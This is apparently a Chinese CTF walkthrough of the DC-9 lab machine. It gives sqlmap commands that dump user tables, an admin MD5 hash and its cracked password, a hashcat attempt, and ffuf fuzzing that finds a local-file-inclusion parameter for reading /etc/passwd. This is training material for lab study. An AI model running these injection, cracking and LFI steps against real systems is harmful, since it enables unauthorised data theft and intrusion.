 <br/> 优先看`Users`的表

<br/> 存在账号以及密码的字段

<br/> 得到了帐号以及密码的信息

<br/>`admin` | `856f5de590ef37314e7c3bdf6f8a66dc`<br/> 可以发现密码是`md5`加密的格式，因为有`32`位

之后我们看看另一个表，表名也挺诱惑人的
1.  `# 爆出数据库之后爆表` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" -D users --tables` 1.  `# 爆字段名` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" -D users -T UserDetails --columns` 1.  `# 爆整个表` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" --dump -D users -T UserDetails` 
只有一个表`UserDetails`

<br/> 太多了，直接一起爆吧

<br/> 爆了很多密码捏

##### hashcat爆破密码(失败)
1.  `# 将密码输出到文件` 1.  `echo '856f5de590ef37314e7c3bdf6f8a66dc' &amp;gt; hash` 1.  `hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt` 
发现没爆破出来，尝试在线解密

<br/>`https://www.somd5.com/`

<br/> 挺难受的，爆破不出来，解密出来的密码`transorbital1`

##### 登录后台

利用获得的账号以及密码登录之后发现多了一个功能点

#### LFI利用

登录之后发现一个奇怪的地方，登陆前底下是没有的
1.  `File does not exist &amp;gt;&amp;gt; 文件不存在` 
推测该功能点的`php`可以尝试`fuzz`参数

##### 暴力破解-参数名破解FUZZ1(失败)
1.  `# -u 指定URL FUZZ 暴力破解的地方 -w 指定字典 -fs 0 不限制文件大小` 1.  `ffuf -u 'http://192.168.178.209/addrecord.php?FUZZ=../../../../../../etc/passwd' -w /usr/share/wordlists/dirb/common.txt -fs 0 &amp;gt; fuzz.txt` 
没有爆破处内容捏

<br/>`curl`了一下也没有内容，我想起来是要带`cookie`才行

<br/> 修改一下`fuff` `PHPSESSID "h86ph7lej727porurqhsh072vs"`<br/> 带上`cookie`之后`curl`就有值了

##### 暴力破解-参数名破解FUZZ2
1.  `# -b 带cookie` 1.  `ffuf -u 'http://192.168.178.209/addrecord.php?FUZZ=../../../../../../etc/passwd' -w /usr/share/wordlists/dirb/common.txt -b "PHPSESSID=h86ph7lej727porurqhsh072vs" -fs 0 &amp;gt; fuzz.txt` 
从文件夹里面找到一个不一样的`size` 这样太不优雅了
1.  `┌──(root㉿Kali)-[/home/bachang/DC-9]` 1.  `└─# cat fuzz.txt | grep -v 1757 | grep Size -A 2 -B 2` 1.  `* FUZZ: framework` 1.   1.  `[Status: 200, Size: 4110, Words: 95, Lines: 108, Duration: 235ms]` 1.  `| URL | http://192.168.178.209/addrecord.php?file=../../../../../../etc/passwd` 1.  `* FUZZ: file` 
利用`grep`去掉1757并且筛选最后存在的上下各两行找到了`file`
